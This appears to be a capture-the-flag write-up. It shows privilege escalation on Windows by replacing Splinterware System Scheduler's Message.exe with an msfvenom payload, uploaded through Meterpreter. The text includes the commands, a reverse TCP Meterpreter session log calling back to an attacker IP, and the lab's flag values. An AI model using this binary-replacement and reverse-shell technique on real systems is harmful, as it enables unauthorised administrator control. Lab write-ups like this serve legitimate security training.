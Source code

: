 ## Splinterware System Scheduler Pro 5.12 - Privilege Escalation

* SystemScheduler located in `c:\Program Files (x86)\SystemScheduler`
* Checking logs in - `C:\Program Files (x86)\SystemScheduler\Events`
* `type 20198415519.INI_LOG.txt`

```
08/04/19 15:06:01,Event Started Ok, (Administrator)
08/04/19 15:06:30,Process Ended. PID:2608,ExitCode:1,Message.exe (Administrator)
```

* every 30 seconds, a process called `Message.exe` runs
* actual `Message.exe` executable resides in `C:\PROGRA~2\SYSTEM~1\Message.exe`
* the exploit requires us to replace this file with our own malicious exe
* we can't delete this file but we can rename it to `Message.exe.bak`
* `move Message.exe Message.exe.bak`

## Meterpreter

* we can upload a second file generated in msfvenom with the same options as before

```
meterpreter > upload exploit2.exe
[*] uploading  : exploit2.exe -> exploit2.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): exploit2.exe -> exploit2.exe
[*] uploaded   : exploit2.exe -> exploit2.exe
```

* `meterpreter > mv exploit2.exe "C:\\PROGRA~2\\SYSTEM~1\\Message.exe"`
* now we wait 30 seconds...
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.37.213:9001 
[*] Sending stage (176195 bytes) to 10.10.185.149
[*] Meterpreter session 3 opened (10.10.37.213:9001 -> 10.10.185.149:49325) at 2022-04-18 22:26:00 +0100
```
user.txt - `759bd8af507517bcfaede78a21a73e39`
root.txt - `7e13d97f05f7ceb9881a3eb3d78d3e72`